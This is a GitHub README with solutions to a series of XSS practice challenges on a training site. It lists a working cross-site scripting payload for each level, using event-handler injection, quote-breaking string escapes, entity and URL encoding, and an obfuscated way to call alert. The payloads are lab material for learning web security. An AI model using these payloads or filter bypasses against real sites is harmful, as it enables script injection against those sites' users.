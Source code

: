 <!-- 
description: XSS Challenges and solutions for learning web security and bug bounty. Practice real-world XSS attacks.

keywords: XSS, Cross Site Scripting, bug bounty, cyber security, CTF, XSS challenges, XSS labs, ethical hacking
-->


<p align="center">
  <img src="https://github.com/brono4/XSS-challenges/blob/main/XSS.jpg?raw=true" alt="XSS Challenge">
</p>



# 🚨 Solutions of XSS Challenges of http://sudo.co.il/xss/

---
## 🎯 Goal for CTFs:

**Our goal is to trigger a popup displaying  — all without requiring any user interaction! 🚫🖱️**


##  🔓 Challenge Solutions

- Level 0 🧪
```
<img src=1 onerror=alert(document.domain)>
```
- Level 1🧪
```
"><img src=1 onerror=alert(document.domain)>
```

- Level 2 🧪
```
" autofocus onfocus=alert(1) x="
```
- Level 3 🧪
```
"autofocus/onfocus="alert(document.domain)
```

- Level 4 🧪
```
"autofocus/onfocus="&#x61;lert&#x28;document.domain&#x29;
```

- Level 5.1 🧪
```
'-alert(document.domain);<!--
```
- Level 5.2 🧪
```
\'-alert(1);<!--
```
- Level 6 🧪
```
\'-alert(document.domain);//
```
- Level 7 🧪
```
" autofocus onfocus=alert(1) x="    #like 2
```
- Level 8 🧪
```
this[8680439..toString(30)](document.domain)
```
- Level 8.1 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 9 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 10 🧪
```
';this[8680439..toString(30)](document.domain);'
```

- Level 11 🧪
```
#<script>alert(document.domain)</script>
```
🧨 Level 12 — External Payload Injection

📎 Go to: http://untrusted.sudo.co.il/iframe.php?p=

Paste the following encoded payload:

%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

🔗 Final link:

http://untrusted.sudo.co.il/iframe.php?p=%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

---
## 👨‍💻 Author
💻 Made with ❤️ by Bruno.





